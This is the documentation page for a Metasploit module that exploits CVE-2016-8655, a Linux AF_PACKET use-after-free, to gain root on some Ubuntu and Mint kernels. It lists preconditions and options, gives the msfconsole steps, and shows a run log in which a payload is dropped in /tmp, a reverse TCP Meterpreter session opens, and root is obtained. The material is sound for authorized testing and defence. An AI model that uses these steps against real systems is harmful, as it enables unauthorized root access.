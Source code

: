 ## Description

  This module exploits a race condition and use-after-free in the
  `packet_set_ring` function in `net/packet/af_packet.c` (`AF_PACKET`) in
  the Linux kernel to execute code as `root` (CVE-2016-8655).

  The bug was initially introduced in 2011 and patched in 2016 in version
  4.4.0-53.74, potentially affecting a large number of kernels; however
  this exploit targets only systems using Ubuntu (Trusty / Xenial) kernels
  4.4.0 < 4.4.0-53, including Linux distros based on Ubuntu, such as
  Linux Mint.

  The target system must have unprivileged user namespaces enabled,
  two or more CPU cores, and SMAP must be disabled.

  Bypasses for SMEP and KASLR are included. Failed exploitation
  may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on:

  * Linux Mint 17.3 (x86_64)
  * Linux Mint 18 (x86_64)
  * Ubuntu 16.04.2 (x86_64)

  With kernel versions:

  * 4.4.0-45-generic
  * 4.4.0-51-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/af_packet_chocobo_root_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **TIMEOUT**

  Race timeout (seconds). (default: `600`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ```
  msf5 > use exploit/linux/local/af_packet_chocobo_root_priv_esc 
  msf5 exploit(linux/local/af_packet_chocobo_root_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/af_packet_chocobo_root_priv_esc) > run
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.iDLrwN3S4.c' (24885 bytes) ...
  [*] Writing '/tmp/.rMIvkKT' (207 bytes) ...
  [*] Launching exploit (Timeout: 600)...
  [*] Sending stage (853256 bytes) to 172.16.191.209
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.209:38530) at 2018-05-07 03:07:21 -0400
  [+] Deleted /tmp/.iDLrwN3S4.c
  [+] Deleted /tmp/.iDLrwN3S4
  [+] Deleted /tmp/.rMIvkKT

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.209
  OS           : Ubuntu 16.04 (Linux 4.4.0-51-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

